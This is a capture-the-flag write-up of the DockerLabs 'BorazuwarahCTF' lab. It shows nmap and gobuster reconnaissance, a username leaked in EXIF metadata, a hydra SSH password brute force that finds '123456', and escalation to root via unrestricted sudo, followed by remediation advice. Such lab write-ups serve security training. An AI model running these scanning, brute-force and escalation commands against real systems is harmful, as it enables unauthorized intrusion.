








**platform**: DockerLabs

**machine**: BorazuwarahCTF

**difficulty**: Easy

**os**: Linux

**attack_vector**: EXIF metadata credential leak

**date**: 2026-09-06

**author**: jloffsec


# BorazuwarahCTF (DockerLabs)

## Summary

Root obtained via credential leakage in JPEG EXIF metadata. The exposed username was brute-forced against SSH with a common password wordlist, and the resulting shell had unrestricted `sudo` access, allowing immediate privilege escalation to root.

## Recon

### Port scan

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 172.17.0.2
```



| Port | Service |
|------|---------|
| 22   | SSH     |
| 80   | HTTP    |

### Web enumeration



### Directory fuzzing

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,xml,txt,py
```

No results.

### SSH brute force (no known credentials)

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

No results.

### Image analysis

The landing page displayed a Kinder egg image. Kinder eggs are known for hiding a surprise inside, so the image was downloaded and inspected for embedded data.

```bash
wget http://172.17.0.2/imagen.jpeg
file imagen.jpeg
```



### EXIF metadata

```bash
exiftool imagen.jpeg
```



A candidate username was found in the metadata fields: `borazuwarah`.

A parallel Hydra attack against SSH was launched with this username while the rest of the image was still being reviewed. No further inspection of the image was required once Hydra returned valid credentials.

## Vulns

| Vector | Result |
|--------|--------|
| Directory fuzzing (port 80) | Discarded — no hidden paths found |
| SSH brute force, unknown user/pass | Discarded — no results |
| EXIF metadata exposure | **Confirmed** — leaked valid SSH username |
| SSH brute force, known user + rockyou | **Confirmed** — valid password found |

**Root cause:** sensitive information (a valid system username) disclosed through EXIF metadata of a publicly accessible image.

## Xploit

### Credential brute force

Username recovered from EXIF metadata: `borazuwarah`.

```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```



**Username:** `borazuwarah`
**Password:** `123456`

### SSH access

```bash
ssh borazuwarah@172.17.0.2
```



## Privesc

### Sudo privileges enumeration

```bash
sudo -l
```



The user had unrestricted `sudo` access.

```bash
sudo bash
```



Root obtained.

## Remediation

- Never embed usernames, passwords, or other identifying data in image metadata served to the public. Strip EXIF data from any image before publishing (`exiftool -all= imagen.jpeg`).
- Enforce a strong password policy; `123456` should be rejected at account creation.
- Restrict `sudo` to the specific commands a user needs (`sudo -l` should never show unrestricted access) instead of full `bash`/`ALL`.
- Consider rate-limiting or fail2ban on SSH to slow down brute-force attempts even when a valid username is known.
